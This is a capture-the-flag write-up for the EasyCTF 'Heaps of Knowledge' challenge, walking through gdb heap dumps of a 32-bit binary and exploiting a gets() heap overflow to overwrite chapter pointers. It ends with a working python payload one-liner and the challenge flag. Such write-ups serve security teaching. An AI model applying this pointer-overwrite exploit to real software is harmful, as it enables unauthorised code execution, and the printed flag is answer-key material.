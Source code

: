 #Heaps of Knowledge - 420 Points

We were given a binary. We run it to see what it does.
It prompts you for a book name, then there are three options:

```
Please enter the title of the book you would like to write: AAAA
You have started writing the book 'AAAA'. Please select an option to get started!
1. Edit chapter
2. Delete chapter
3. Publish book
```

After experimenting with this program, you find out that you can only create a chapter starting from 1, 2, 3 and so on. Also you can only delete an existing chapter otherwise the program will exit. Then, publish prints the title, and the content of each chapter. Then, if you edit an existing chapter, it changes it's content.

Because this problem is called Heaps of Knowledge, we can be fairly certain this will be a heap exploit.
We can run this in gdb, enter a random book title, let's say "AAAA" then view our heap using:

>info proc mappings

```
(gdb) x/50wx 0x804c000
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000000
0x804c010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804c020:      0x00000000      0x00020fe1      0x00000000      0x00000000
0x804c030:      0x00000000      0x00000000      0x00000000      0x00000000
```

We can see that the first section consists of an address to the actual title of the book, contained in another section. Let's do the same after adding a couple of chapters. Let's set chapter 1's name to BBBB, and it's content to CCCC while chapter 2's name to DDDD and it's content to EEEE

```
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000002
0x804c010:      0x0804c028      0x00000011      0x41414141      0x00000000
0x804c020:      0x00000000      0x00000019      0x00000000      0x0804c060
0x804c030:      0x0804c040      0x0804c050      0x0804872f      0x00000011
0x804c040:      0x42424242      0x0000000a      0x00000000      0x00000011
0x804c050:      0x43434343      0x0000000a      0x00000000      0x00000019
0x804c060:      0x0804c028      0x00000000      0x0804c078      0x0804c088
0x804c070:      0x0804872f      0x00000011      0x44444444      0x0000000a
0x804c080:      0x00000000      0x00000011      0x45454545      0x0000000a
0x804c090:      0x00000000      0x00020f71      0x00000000      0x00000000
```

We can see that this is very similar in structure. The section containing addresses for chapters, however, contains three addresses: the chapter's name, chapter's content, and huh? what is the last one? We can quickly view it using

>x 0x0804872f

```
0x804872f <print_chapter>:      0x83e58955
```

We see that this is an address pointing to the function to print this chapter. From this knowledge, we can surmise that the edit chapter edits content at the chapter's content's address (for chapter 1 in this case, it is 0x0804c050). Then the publish function most likely calls the function at the print chapter address stored on the heap. (for chapter 1 it is 0x0804872f).

Next, we look into the disassembly of the binary. I used IDA to disassemble this binary.

![](https://github.com/VoidMercy/EasyCTF-Writeups-2017/blob/master/binexploit/Heaps-of-Knowledge/screenshot1.PNG)

It uses gets() to get the content of the chapter text! This means we can overflow the heap because gets does not check the length of the string you give it. Using this, we can pretty much construct the heap to whatever we want it to look like.
We then see a give_flag function as look into it. It reads the flag file and prints it's contents. However, there's a catch

![](https://github.com/VoidMercy/EasyCTF-Writeups-2017/blob/master/binexploit/Heaps-of-Knowledge/image.png)

success needs to be set to 0x13371337 in order for the flag file to be read. And we see that success is set to just 0x1337 in default. However, we can use the edit chapter content function of the program to change the address of chapter content and write to that address. Then if we set the address of print chapter to give_flag, publishing the book should give us our flag.

I used gdb to get the address of give_flag, and IDA for success:

>p give_flag

```
$2 = {<text variable, no debug info>} 0x804879a <give_flag>
```

and success = 0x0804b054

Now I used gdb to create two chapters, and manually edit the heap to what I want it to look like using:

>set {int}address=value

Here is the state of the heap:

```
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000002
0x804c010:      0x0804c028      0x00000011      0x41414141      0x42424242
0x804c020:      0x00000000      0x00000019      0x00000000      0x0804c060
0x804c030:      0x0804c040      0x0804c050      0x0804879a <give_flag> 0x00000011
0x804c040:      0x43434343      0x0000000a      0x00000000      0x00000011
0x804c050:      0x44444444      0x0000000a      0x00000000      0x00000019
0x804c060:      0x0804c028      0x00000000      0x0804c078      0x0804b054 <success>
0x804c070:      0x0804872f      0x00000011      0x45454545      0x0000000a
0x804c080:      0x00000000      0x00000011      0x46464646      0x0000000a
0x804c090:      0x00000000      0x00020f71      0x00000000      0x00000000
0x804c0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0f0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c100:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c110:      0x00000000      0x00000000
```

Then after editing the contents of chapter 2 to 0x13371337 and publishing, the contents of flag.txt was successfully printed.


Now we know the requirements for the exploit:
1) Change address of chapter content to address of success
2) Edit that chapter's content to 0x13371337
3) Change address of print chapter to address of give_flag
4) Publish

Now, we just have to construct an exploit.

I decided to create 2 chapters and overflow the second chapter's addresses through the first address's chapter content.

The key input order will be:

AAAA

1

1

BBBB

CCCC

1

2

DDDD

EEEE

1

1

"C" * 24 + 0x804c078 + 0x0804b054 + 0x804879a

1

2

0x13371337

3

I printed the non printable ascii characters with python and piped the input into the binary

python -c "print 'AAAA\n1\n1\nBBBB\nCCCC\n1\n2\nDDDD\nEEEE\n1\n1\n' + 'C'*24 + '\x78\xc0\x04\x08' + '\x54\xb0\x04\x08' + '\x9a\x87\x04\x08\n' + '1\n2\n' + '\x37\x13\x37\x13\n' + '3\n'" | ./heaps_of_knowledge

##Flag

>easyctf{4r3nT_u_hav1ng_h34pz_0f_Fun?}

